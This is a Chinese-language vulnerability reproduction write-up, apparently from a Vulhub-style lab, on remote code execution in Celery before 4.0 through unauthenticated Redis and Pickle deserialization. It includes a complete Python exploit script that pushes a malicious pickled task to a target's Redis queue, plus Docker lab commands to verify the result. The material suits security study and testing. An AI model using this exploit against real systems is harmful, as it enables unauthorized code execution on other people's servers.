



# Celery <4.0 Redis未授权访问+Pickle反序列化利用

## 漏洞描述

Celery 是一个简单、灵活且可靠的分布式系统，用于处理大量消息，同时为操作提供维护此类系统所需的工具。它是一个专注于实时处理的任务队列，同时也支持任务调度。

在Celery < 4.0版本默认使用Pickle进行任务消息的序列化传递，当所用队列服务（比如Redis、RabbitMQ、RocketMQ等等等）存在未授权访问问题时，可利用Pickle反序列化漏洞执行任意代码。

参考阅读：

- https://docs.celeryproject.org/en/stable/userguide/configuration.html
- https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk
- https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers
- https://www.jianshu.com/p/52552c075bc0
- https://www.runoob.com/w3cnote/python-redis-intro.html
- https://blog.csdn.net/SKI_12/article/details/85015803

## 环境搭建

Vulhub执行如下命令启动Celery 3.1.23 + Redis：

```
docker-compose up -d
```

## 漏洞复现

漏洞利用脚本`exploit.py`仅支持在python3下使用

```python
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0)

ori_str="{\"content-type\": \"application/x-python-serialize\", \"properties\": {\"delivery_tag\": \"16f3f59d-003c-4ef4-b1ea-6fa92dee529a\", \"reply_to\": \"9edb8565-0b59-3389-944e-a0139180a048\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"delivery_info\": {\"routing_key\": \"celery\", \"priority\": 0, \"exchange\": \"celery\"}, \"correlation_id\": \"6e046b48-bca4-49a0-bfa7-a92847216999\"}, \"headers\": {}, \"content-encoding\": \"binary\", \"body\": \"gAJ9cQAoWAMAAABldGFxAU5YBQAAAGNob3JkcQJOWAQAAABhcmdzcQNLZEvIhnEEWAMAAAB1dGNxBYhYBAAAAHRhc2txBlgJAAAAdGFza3MuYWRkcQdYAgAAAGlkcQhYJAAAADZlMDQ2YjQ4LWJjYTQtNDlhMC1iZmE3LWE5Mjg0NzIxNjk5OXEJWAgAAABlcnJiYWNrc3EKTlgJAAAAdGltZWxpbWl0cQtOToZxDFgGAAAAa3dhcmdzcQ19cQ5YBwAAAHRhc2tzZXRxD05YBwAAAHJldHJpZXNxEEsAWAkAAABjYWxsYmFja3NxEU5YBwAAAGV4cGlyZXNxEk51Lg==\"}"
task_dict = json.loads(ori_str)
command = 'touch /tmp/celery_success'
class Person(object):
    def __reduce__(self):
        # 未导入os模块，通用
        return (__import__('os').system, (command,))
pickleData = pickle.dumps(Person())
task_dict['body']=base64.b64encode(pickleData).decode()
print(task_dict)
r.lpush('celery',json.dumps(task_dict))
```

```
pip install redis
python exploit.py [主机IP]
```



查看结果：

```
docker-compose logs celery
```

可以看到如下任务消息报错：



```
docker-compose exec celery ls -l /tmp
```

可以看到成功创建了文件`celery_success`



